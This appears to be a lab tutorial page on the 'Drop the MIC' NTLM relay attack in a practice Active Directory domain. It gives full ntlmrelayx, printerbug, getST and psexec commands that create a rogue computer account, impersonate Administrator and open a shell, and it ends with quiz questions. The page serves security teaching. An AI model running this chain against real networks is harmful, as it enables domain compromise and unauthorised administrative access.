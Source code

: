 #Drop the MIC attack

This attack targets the NTLM protocol. It also relays authentication from a legitimate client to a legitimate server, but this time, the messages no longer target the SMB service, but the LDAPS service. LDAPS can be used to alter the AD database and doesn't enforce singing by default on DCs, contrary to the SMB service. The attacker hijacks NTLM authentication messages being sent to access an SMB service, and alters them to access LDAPS instead. In order to do so, they must remove the Message Integrity Code (MIC) from NTLM messages. Hence the attack's name.


This attack also makes use of two different terminals, just like the NTLM relay attack.
This attack will relay authentication from the MEMBER machine to the CAPTAIN machine, and use it to create a new computer account, as well as grant this new computer account RBCD privileges to MEMBER, which means that the new computer account can impersonate any user to access any service provided by the MEMBER machine, essentially compromising it.

First, in one terminal run:
```
ntlmrelayx.py -t ldaps://captain.north.altair.local --remove-mic --add-computer removemiccomputer --delegate-access 
```

This script will relay NTLM messages that are originally meant for an SMB service to the LDAPS service from the MEMBER machine to the CAPTAIN machine, and automatically create the new computer account and grant it RBCD privileges in MEMBER.

In a second terminal, run:
```
#in the krbrelayx dir
python3 printerbug.py NORTH/skyler.white:Password123@192.168.122.5 192.168.122.2 
```
This script uses the printer bug in order to coerce authentication from the MEMBER machine to the attacker's machine, allowing the attacker to relay MEMBER's NTLM messages to LDAPS in the DC.

Take note of the newly created computer account on the ntlmrelayx script output. You can now use this account to impersonate the Administrator to a MEMBER machine service, as per RBCD normal behavior:

```
getST.py -dc-ip 192.168.122.10 -impersonate Administrator -spn cifs/member.north.altair.local north/removemiccomputer\$:'<passwordfromntlmscript>'
#set the KRB5CCNAME environment variable to the new ticket
export KRB5CCNAME=/your/current/directory/Administrator.ccache
#now you can access the SMB service as the Administrator user on MEMBER
psexec.py -k -no-pass member.north.altair.local
whoami
```

!!! question
    What's the purpose of targetting the LDAPS service instead of the SMB service in this attack?
??? success "Answer"
    The LDAPS does not enforce signing by default, in contrary to SMB. Removing the MIC while using a service that enforces signing won't work. That's why the LDAPS service is targetted in this attack.
!!! question
    Why can we configure the newly computer account with RBCD privileges against the MEMBER machine?
??? success "Answer"
    We can configure RBCD in this manner since we're using an authenticated MEMBER connection, which can configure RBCD related to itself (Resource-Based Constrained Delegation).